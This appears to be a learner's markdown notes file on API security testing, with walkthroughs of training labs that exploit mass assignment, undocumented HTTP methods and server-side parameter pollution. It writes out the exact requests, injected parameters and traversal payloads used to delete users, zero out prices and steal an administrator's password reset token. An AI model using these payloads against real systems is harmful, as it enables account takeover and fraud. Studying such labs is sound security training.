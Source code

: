 # API Testing
**Steps to start API testing:**
- Identify API endpoints (can use Burp Intruder)
- Determine how to interact with endpoints:
  - The input data the API processes, including both compulsory and optional parameters.
  - The types of requests the API accepts, including supported HTTP methods and media formats (try changing `Content-Type` header).
  - Rate limits and authentication mechanisms.

**Mass assignment vulnerabilities:**
Mass assignment (also known as auto-binding) can inadvertently create hidden parameters. It occurs when software frameworks automatically bind request parameters to fields on an internal object. Mass assignment may therefore result in the application supporting parameters that were never intended to be processed by the developer.

**Server-side parameter pollution:**
Server-side parameter pollution occurs when a website embeds user input in a server-side request to an internal API without adequate encoding.
To test for server-side parameter pollution in the query string, place query syntax characters like `#`, `&`, `/` and `=` in your input and observe how the application responds.
> It's essential that you URL-encode these characters.

### LAB: Exploiting an API endpoint using documentation
Found this API endpoint when updating user's email: `PATCH /api/user/wiener`. Change the request method to `OPTIONS` and found out `DELETE, GET, PATCH` are allowed. Change the request method to `DELETE` and the username to `carlos` to successfully delete user carlos:

    DELETE /api/user/carlos 

### LAB: Finding and exploiting an unused API endpoint
Found the `/api/products/1/price` in a `GET` request which returns:

    {
      "price":"$0.00",
      "message":"&#x1F525;&#x1F525;&#x1F525; Our warehouse is on fire, purchase now before all stock is burnt to a crisp! &#x1F525;&#x1F525;&#x1F525;"
    }

Use `OPTIONS` to make a request to this endpoint and observes that it also allows `PATCH` method. Change the request method to `PATCH` and add this body to successfully change the price of the product to `$0.00`:

    {
      "price":0
    }

### LAB: Exploiting a mass assignment vulnerability
Found the `/api/checkout` in a `GET` request which returns:

    {
      "chosen_discount":{
        "percentage":0
      },
      "chosen_products":[
        {
          "product_id":"1",
          "name":"Lightweight \"l33t\" Leather Jacket",
          "quantity":1,
          "item_price":133700
        }
      ]
    }

Use `OPTIONS` to make a request to this endpoint and observes that it also allows `POST` method. Change the request method to `POST` and add this body:

    {
      "chosen_discount":{
        "percentage":100
      },
      "chosen_products":[
        {
          "product_id":"1",
          "name":"Lightweight \"l33t\" Leather Jacket",
          "quantity":1,
          "item_price":133700
        }
      ]
    }

As the result, the product is bought with 100% discount:

    HTTP/2 201 Created
    Location: /cart/order-confirmation?order-confirmed=true
    X-Frame-Options: SAMEORIGIN
    Content-Length: 0

### LAB: Exploiting server-side parameter pollution in a query string
Notice an API endpoint when posting this request:

    POST /forgot-password HTTP/2

    csrf=TUsQP24XgJ8l6AzpP5JtEdP5rdSt2n5z&username=administrator

Try truncate the API call by appending the fragment symbol (`%23`) after the username's value. Notice the response indicating there is a `field` parameter. When we send this request:

    POST /forgot-password HTTP/2

    csrf=TUsQP24XgJ8l6AzpP5JtEdP5rdSt2n5z&username=administrator%26field=username

Notice the response is now showing us the username's value:

    {"type":"username","result":"administrator"}

Notice in the `/static/js/forgotPassword.js`, there is a parameter named `reset_token`. To reset the administrator's password, we need to retrieve this value. Try sending request:

    POST /forgot-password HTTP/2

    csrf=TUsQP24XgJ8l6AzpP5JtEdP5rdSt2n5z&username=administrator%26field=reset_token

Now the response is giving us the `reset_token` value. Use this access the reset password page and reset the password. Login to the admin's account and delete user Carlos.

### LAB: Exploiting server-side parameter pollution in a REST URL
At the `POST /forgot-password HTTP/2`, try paht traversal by injecting in the username value:

    username=../../../../%23

This gives an error of not found, which indicates that we have reached the root directory. Try fuzzing with some common API endpoint and found that with:

    username=../../../../openapi.json%23

The server is returning this error:

    {
      "error": "Unexpected response from API server:
      {
          \"openapi\": \"3.0.0\",
          \"info\": {
            \"title\": \"User API\",
            \"version\": \"2.0.0\"
          },
          \"paths\": {
            \"/api/internal/v1/users/{username}/field/{field}\": {
              \"get\": {
                \"tags\": [
                  \"users\"
                ],
                \"summary\": \"Find user by username\",
                \"description\": \"API Version 1\",
                \"parameters\": [
                    {
                      \"name\": \"username\",
                      \"in\": \"path\",
                      \"description\": \"Username\",
                      \"required\": true,
                      \"schema\": {
                        ..."
    }

Take note of the path `/api/internal/v1/users/{username}/field/{field}`. This time try fuzzing the field value. Just like the above lab, we have found a parameter that could reference the reset token. Send this request:

    username=administrator/field/passwordResetToken%23

This time the server returns with an error indicating that this version of API only accepts the email field. To bypass this, try changing the API version with path traversal:

    username=../../v1/users/administrator/field/passwordResetToken%23

This time, we successfully retrieve the reset password token. Use it to solve the lab.